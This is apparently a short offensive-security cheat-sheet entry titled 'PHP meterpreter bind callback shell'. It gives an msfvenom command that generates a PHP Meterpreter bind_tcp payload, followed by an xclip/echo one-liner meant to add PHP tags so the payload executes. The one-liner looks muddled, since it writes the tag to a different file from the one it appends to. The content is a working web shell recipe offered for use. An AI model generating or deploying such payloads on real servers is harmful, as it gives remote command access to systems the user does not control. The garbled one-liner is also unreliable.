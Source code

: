 # PHP

PHP meterpreter bind callback shell

```
$ msfvenom -p php/meterpreter/bind_tcp lport=<PORT> -f raw > met.php
```

After generating the PHP meterpreter bind callback shell include the tags to ensure execution.

```
$ xclip -selection clipboard met.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php
```